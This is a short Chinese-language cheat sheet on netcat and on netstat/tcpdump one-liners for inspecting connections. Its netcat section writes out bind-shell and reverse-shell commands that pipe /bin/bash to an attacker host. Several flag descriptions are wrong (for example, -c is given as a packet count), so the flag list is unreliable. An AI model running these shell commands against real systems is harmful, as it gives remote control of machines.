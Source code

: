 #### nc

##### 正向连接

靶机执行：nc -lvp [port] -e /bin/bash

攻击机监听：nc [ip] [port]

##### 反弹shell

攻击机监听：nc -lvnp [port]

靶机反弹shell：nc [ip] [port]-c /bin/bash

##### 参数

* `-l`：监听模式。用于在本地创建一个监听端口，等待连接。
* `-v`：详细模式，显示更多调试信息。
* `-n`：不进行 DNS 解析。
* `-p <port>`：指定端口号。
* `-e <program>`：将输出从网络传输到指定的程序。
* `-c <count>`：设置发送的数据包数量。
* `-i <interval>`：设置数据包的发送间隔时间（单位：秒）。
* `-q <secs>`：设置退出时间。
* `-r`：随机发送数据。
* `-s <size>`：指定数据包大小
* `-w <timeout>`：设置超时时间（单位：秒）。
* `-z`：仅扫描端口，不进行数据传输。
* `-u`：使用 UDP 协议。

一些特定版本的nc放弃了-e和-c等危险功能

#### 查看开放端口

##### netstat

* -a：显示所有连线中的Socket
* -t：显示TCP 传输协议的连线状况
* -u：显示UDP传输协议的连线状况
* -n：直接使用IP地址，而不通过域名服务器
* -l：显示监控中的服务器的Socket
* -p：显示正在使用Socket的程序识别码和程序名称

```
1.查找请求数前20个IP（常用于查找攻来源）：
netstat -anlp|grep 80|grep tcp|awk '{print $5}'|awk -F: '{print $1}'|sort|uniq -c|sort -nr|head -n20
 
netstat -ant |awk '/:80/{split($5,ip,”:”);++A[ip[1]]}END{for(i in A) print A[i],i}' |sort -rn|head -n20
 
2.用tcpdump嗅探80端口的访问看看谁最高
tcpdump -i eth0 -tnn dst port 80 -c 1000 | awk -F”.” '{print $1″.”$2″.”$3″.”$4}' | sort | uniq -c | sort -nr |head -20
 
3.查找较多time_wait连接
netstat -n|grep TIME_WAIT|awk '{print $5}'|sort|uniq -c|sort -rn|head -n20
 
4.找查较多的SYN连接
netstat -an | grep SYN | awk '{print $5}' | awk -F: '{print $1}' | sort | uniq -c | sort -nr | more
 
5.根据端口列进程
netstat -ntlp | grep 80 | awk '{print $7}' | cut -d/ -f1
```
